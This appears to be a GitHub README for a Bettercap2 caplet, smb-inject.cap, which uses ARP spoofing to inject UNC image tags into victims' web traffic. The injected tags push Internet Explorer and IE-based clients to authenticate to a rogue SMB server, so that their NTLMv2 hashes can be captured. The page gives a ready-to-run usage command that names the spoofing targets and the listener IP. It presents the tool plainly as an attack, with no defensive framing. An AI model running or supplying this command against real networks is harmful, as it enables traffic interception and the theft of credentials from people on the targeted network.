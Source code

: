 <h1>Bettercap2 Caplets</h1>

<h3>smb-inject.cap</h3>
<br>
Description: Injects HTML image tags using UNC file path references (file://ip/smb.jpg). Forces clients rendering HTML in Internet Explorer, or applications using Windows IE objects, to connect to your SMB server. Run a rogue SMB server to capture NTLMv2 hashes
<br>
Related JS: smb-inject.js
<br>
Usage:
<br>
`bettercap -caplet smb-inject.cap -eval "set arp.spoof.targets IP; set smb.listener.ip SMB.Server.IP"`
<br>
_smb.listener.ip_ is the IP to your rogue SMB server
<br>
_arp.spoof.targets_ is the IP (single or CIDR notation) of the range to poison/spoof
